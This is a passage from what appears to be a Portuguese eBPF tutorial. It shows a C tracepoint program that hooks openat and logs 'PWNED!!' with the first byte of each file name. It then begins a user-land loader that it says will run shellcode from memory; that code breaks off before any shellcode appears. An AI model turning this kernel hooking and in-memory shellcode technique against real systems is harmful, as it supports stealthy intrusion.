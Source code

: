 ## 3.1 - Code **eBPF** (**kernel**-land)

O seguinte code em C define o programa **eBPF** que será carregado no **kernel** e anexado ao **tracepoint** `sys_enter_openat`. Esse **tracepoint** é acionado sempre que um processo executa a **syscall** `openat()` usada internamente por funções como `open()` e `fopen()`
 

```C
#include <linux/bpf.h>
#include <bpf/bpf_helpers.h>
#include <linux/ptrace.h>
#include <linux/types.h>
#include <linux/stat.h>

struct trace_event {
    __u64           pad;
    int             dfd;
    const char     *filename;
    int             flags;      
    __u32           mode;
};

char LICENSE[] SEC("license") = "GPL";

SEC("tracepoint/syscalls/sys_enter_openat")
int trace_openat(struct trace_event *ctx)
{
    char first_byte = 0;
    bpf_probe_read_user(&first_byte,
                       sizeof(first_byte),
                       ctx->filename);

    bpf_printk("PWNED!! %c\n", first_byte);
    return 0;
}
```




"O que o código faz?"
- intercepta chamadas para a `openat()`
- lê o primeiro caractere do nome do arquivo sendo aberto
- usa `bpf_printk**()` para registrar no `/sys/**kernel**/debug/tracing/**trace_pipe`

Então, isso permite monitorar em tempo real o que está sendo acessado pelo sistema sem hooks invasivos!

## 3.2 - Code loader (**user-land**)

O loader é o programa em **user-land** responsável por carregar o **eBPF** no **kernel**, e logo após, carregar e executar um **shellcode** diretamente da memória! Aqui está o código do loader em C:


```C
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/mman.h>
#include <sys/resource.h>
#include <bpf/libbpf.h>

static void bump_memlock_rlimit(void)
{
    struct rlimit r = { RLIM_INFINITY, RLIM_INFINITY };
    if (setrlimit(RLIMIT_MEMLOCK, &r)) {
        perror("setrlimit(RLIMIT_MEMLOCK)");
```